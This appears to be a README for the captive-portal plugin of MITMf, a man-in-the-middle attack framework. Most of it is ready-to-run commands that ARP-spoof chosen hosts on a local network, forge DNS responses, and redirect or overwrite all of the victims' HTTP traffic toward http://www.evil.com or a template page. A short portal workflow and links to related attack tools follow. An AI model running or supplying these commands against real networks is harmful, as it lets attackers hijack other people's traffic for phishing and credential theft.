 

# Commands

This command simply modifies all HTTP (80/tcp) and redirects them to portalurl.
`python mitmf.py -i wlan0 --spoof --arp --gateway 192.168.178.1 --targets 192.168.178.29,192.168.178.21 --portal --portalurl http://www.evil.com`

Additionally to the above, this command listens for DNS queries and responsed with a forged CNAME and A record to redirect to the portal host. Race condition exists, as the legitimate response is not filtered.
`python mitmf.py -i wlan0 --log-level info --spoof --arp --gateway 192.168.178.1 --targets 192.168.178.21,192.168.178.29 --portal --portalurl http://www.evil.com --portaldns`

This command modifies all HTTP (80/tcp) responses and overwrites everything with the static template.
`python mitmf.py -i wlan0 --log-level info --spoof --dns --arp --gateway 192.168.178.1 --targets 192.168.178.21,192.168.178.29 --portal --portaltemplate /root/Tools/MITMf/config/portal/test.html`

If your are running a wifi access point you can use the following command (no spoofing required).
`python mitmf.py -i wlan0 --log-level info --portal --portalurl http://www.evil.com`

# Captive Portal Workflow
1. Client associates to the AP
2. Client starts a browser and generates ARP/DNS/HTTP traffic
3. HTTP gets captured by the Controller and then redirected to CP server URL
4. Client sends a HTTP GET to the CP server

# Links
## MITMf Intro
* [Introducing MITMf - A Framework for Man-In-The-Middle Attacks](http://sign0f4.blogspot.de/2014/07/introducing-mitmf-framework-for-man-in.html)

## Related Work
* [Evil Portal](https://github.com/frozenjava/evilportal)

